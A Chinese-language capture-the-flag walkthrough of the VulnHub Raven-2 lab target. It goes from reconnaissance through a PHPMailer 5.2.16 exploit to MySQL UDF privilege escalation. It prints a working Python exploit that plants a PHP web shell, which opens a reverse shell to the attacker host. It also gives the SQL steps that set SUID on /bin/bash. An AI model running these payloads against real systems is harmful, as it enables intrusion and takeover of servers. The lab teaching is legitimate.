# 前言

靶机：`Raven-1`，IP地址为`192.168.10.9`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

> 文章所用靶机来自`vulnhub`，可通过官网下载，或者在本公众号回复`raven2`获取下载链接

# 主机发现

因为都处于同一局域网、同一网卡、同一网段，并且因为桥接模式，扫描出的结果很多，所以决定采用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`扫描网段中的存活主机。

若想要模拟真实，可以采用`nmap`等工具



# 信息收集

## 使用nmap扫描端口



## 网站信息探测

访问80端口网站，发现与`raven-1`的页面是一样的



点击访问`blog`，发现是`wordpress`目录



再点击`hello world`发现，跳转到一个域名，和`raven-`一样，需要绑定ip进行解析



这里还是以`linux`进行编辑`/etc/hosts`文件进行绑定



再访问`wordpress`，页面正常显示了，并且是`wordpress`的某个主题默认界面



使用`whatweb`尝试对该网站进行指纹识别等操作，确定为`wordpress`，版本为`4.8.7`



那么使用针对该CMS的工具`wpscan`进行测试

```shell
wpscan --url http://raven.local/wordpress
```



那么尝试进行枚举用户，发现又是这两个用户`michael`和`steven`

```
wpscan --url http://raven.local/wordpress -e u
```



再次对插件进行测试，发现并无有漏洞的插件，爆破密码，但是时间太长，所以尝试进行网站目录爆破

这里是使用`gobuster`，当然还有其他很优秀的工具，如`dirb、dirsearch`等

```shell
gobuster dir -u http://192.168.10.9 -w /usr/share/wordlists/dirb/big.txt -x php,html,zip,tar -b 404,403
```



但是发现这里的结果与`raven-1`是一样的，访问`vendor`目录，点击`PATH`，发现第一个`flag`

不过这里也给出当前目录所在路径，往前推测，网站建设在`/var/www/html`下



点击`version`，发现版本为`5.2.16`，发现还是与`raven-1`一样，啧，怀疑与前面靶机的方式一模一样，访问`security.md`，发现还是一样的安全提示



# php mailer漏洞利用

`ok`，那么就直接利用`php mailer`的漏洞

在`raven-1`靶场中，使用的是`sh`脚本，不过当时需要修改一些地方，这里采用`py`脚本进行测试

```shell
searchsploit phpmailer 5.2.16
```



查看脚本内容



把修改后的代码，放置在这里

```python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

target = 'http://192.168.10.9/contact.php'
backdoor = '/test.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.10.2\\\',9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/test.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

我这里安装模块的`pip`有问题，无法直接安装缺失的模块，所以使用`python`开启一个虚拟环境

```shell
python3 -m venv ./my_venv
source my_venv/bin/activate
```

这时候就已经启动虚拟环境了，当然想要退出虚拟环境，只需要输入命令`deactivate`即可

这时再把缺失的模块使用`pip`安装，然后执行`python3 40974.py`即可



先在`kali`开启监听端口9999

```shell
nc -lvvp 9999
```

然后浏览器访问地址`http://192.168.10.9/test.php`，注意，这里访问的不是执行后提供的地址。

这里是把脚本写入到`/var/www/html`下的，所以直接访问即可



做到这里，我大概知道了，因为在发现两个用户的时候，就开始进行`ssh`爆破了，就是不能成功，所以这里是必须采用`php mailer`漏洞利用

使用`dpkg`测试靶机是否安装`python`，以及什么版本，然后使用`python`获取一个交互式的界面即可

```shell
dpkg -l | grep python
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

在进行种种目录探测时，发现`/var/www`目录下，出现`flag2`



啧，这里的信息与`raven-1`靶机一样的，所以直接就查看`wordpress`有无连接数据库的文件吧

查看`wp-config.php`，有信息，用户名`root`，密码`R@v3nSecurity`



发现之前两个用户的密码，不过进行`hash`加密了



这里可以把两个`hash`加密的密码，放入一个文件中，然后使用`john`解密即可，或者通过在线解密网站也是可以的，网站上基本上对于解密过的，很快便有结果，使用`john`的话，是暴力破解的



`john`的破解结果



获取到`steven`的密码`LOLLOL1`，尝试登录`ssh`发现不是，看来还是要登录网站

登录`wordpress`，在`media`处，发现`flag3`



# 提权

通过上传`pspy64`观察有什么东西，发现只有`mysql`以`root`身份执行，那么很明确了，`mysql udf`提权



和`raven-1`靶机一样，这里复习一下

首先确定数据库的版本信息`5.5.60`



然后测试安全策略的情况



>1）当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
>2）当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权！
>3）如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。

在`kali`中使用`searchsploit`搜索对应的`mysql udf`漏洞



查看这个`c`文件，可以看到用法等情况，因为与`raven-1`一样，所以不再进行详细说明

在`kali`中进行编译，然后把`.so`文件上传到靶机内



这时候确定后，可以开始进行下一步操作了，这里不止可以定义`do_system()`，还有`sys_exec()`也行的，不过这里的脚本中的定义名为`do_system`，所以使用这个函数调用。

具体的可以再去看`c`文件，或者自己去编写

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
select do_system('chmod u+s /bin/bash');
```



再通过`do_system`执行加权限



在`root`用户的主目录下，找到最后的`flag`



# 总结

该靶场与前面靶场`raven-1`考察点是一样的，不过这里`ssh`爆破取消了。

1. 网站目录爆破，发现名信息
2. 使用`php mailer`对应的版本漏洞进行复习操作
3. 获取反弹`shell`后，发现`mysql`与`wordpress`连接的数据库文件
4. 上传`pspy64`获取到`mysql`以`root`身份运行的，所以权限很高
5. 查看到`wordpress`的用户密码后，能破解的，还是登录网站查看，因为可能有其他敏感信息，多收集
6. 测试`mysql udf`提权有无条件，也就是安全策略方面，能否写入和导出，以及插件目录的权限等等


